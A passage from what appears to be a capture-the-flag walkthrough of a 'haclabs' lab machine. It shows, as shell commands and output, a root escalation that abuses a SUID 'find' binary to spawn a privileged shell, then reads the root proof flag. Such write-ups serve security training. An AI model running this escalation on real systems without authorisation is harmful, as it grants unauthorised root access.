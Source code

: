 ```bash
www-data@haclabs:/tmp$ /usr/bin/find . -exec /bin/sh -p \; -quit
/usr/bin/find . -exec /bin/sh -p \; -quit
# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

> Yes! It worked!
{: .prompt-info }

## get second flag
```bash
# cd /root
cd /root
# ls -lsah
ls -lsah
total 40K
4.0K drwx------  6 root root 4.0K Aug  4 22:29 .
4.0K drwxr-xr-x 24 root root 4.0K Mar 14  2020 ..
   0 -rw-------  1 root root    0 Jul 14  2020 .bash_history
4.0K -rw-r--r--  1 root root 3.1K Apr  9  2018 .bashrc
4.0K drwx------  2 root root 4.0K Jan 30  2020 .cache
4.0K drwx------  5 root root 4.0K Jan 30  2020 .config
4.0K drwx------  3 root root 4.0K Jan 27  2020 .gnupg
4.0K drwxr-xr-x  3 root root 4.0K Jan 27  2020 .local
4.0K -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4.0K -rw-r--r--  1 root root   32 Jul 14  2020 flag3.txt
4.0K -rw-r--r--  1 root root   33 Aug  4 22:29 proof.txt
# cat proof.txt
cat proof.txt
7******************************c
```

Pwned! <@:-)
